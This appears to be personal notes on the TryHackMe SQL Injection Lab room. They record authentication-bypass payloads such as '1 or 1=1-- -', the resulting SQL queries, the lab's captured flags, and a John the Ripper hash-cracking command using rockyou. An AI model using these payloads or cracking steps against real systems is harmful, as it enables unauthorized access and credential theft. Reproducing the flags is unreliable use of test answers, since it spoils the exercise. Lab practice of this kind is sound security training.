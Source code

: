 [TryHackMe | SQL Injection Lab](https://tryhackme.com/room/sqlilab)

# SQL Injection Lab

**Understand how SQL injection attacks work and how to exploit this vulnerability.**

```
http://10.10.184.158:5000/
```

![[Pasted image 20230704220049.png]]

http://10.10.184.158:5000/sesqli1/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli1%2Fhome

```
'1 or 1=1-- -
```

![[Pasted image 20230704220611.png]]

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='1 or 1=1-- - AND password = '47f274ce60fb8335f29cbe4437fc56108d099dfa914fad4064ec1239ada24f13'
```

```
1 or 1=1-- -
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=1 or 1=1-- - AND password = 'abbabb4d0029fc954aafabe7faed5d71c7997b1d28ee676cc0495da8c6efde88'
```

```
THM{dccea429d73d4a6b4f117ac64724f460}
```

![[Pasted image 20230704223143.png]]

http://10.10.184.158:5000/sesqli1/home

http://10.10.184.158:5000/sesqli2/home

```
1' or '1'='1'-- -
```

![[Pasted image 20230704223439.png]]

```
THM{356e9de6016b9ac34e02df99a5f755ba}
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' or '1'='1'-- -' AND password = 'da45f5fec53621a955c6b72dbf48c338741a295cf9146d441c1cd650e35cbe42'
```

![[Pasted image 20230704223637.png]]

```
http://10.10.184.158:5000/sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='-1' or 1=1-- -' AND password='ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'
```

```
THM{645eab5d34f81981f5705de54e8a9c36}
```

![[Pasted image 20230704224124.png]]

http://10.10.184.158:5000/sesqli4/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli4%2Fhome

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' AND password = '9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08'
```
![[Pasted image 20230704224533.png]]
![[Pasted image 20230704225334.png]]

![[Pasted image 20230704225550.png]]

![[Pasted image 20230705064047.png]]

![[Pasted image 20230705064153.png]]

![[Pasted image 20230705070854.png]]

```
THM{727334fd0f0ea1b836a8d443f09dc8eb}|
```




https://www.onlinehashcrack.com/wh86lv20ap

```
find / -type f -name rockyou.txt 2>/dev/null
/usr/share/wordlists/rockyou.txt
```

![[Pasted image 20230704222216.png]]

```
john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt sqli1.txt
```

```
http://10.10.184.158:5000/downloads/
```

![[Pasted image 20230627224134.png]]

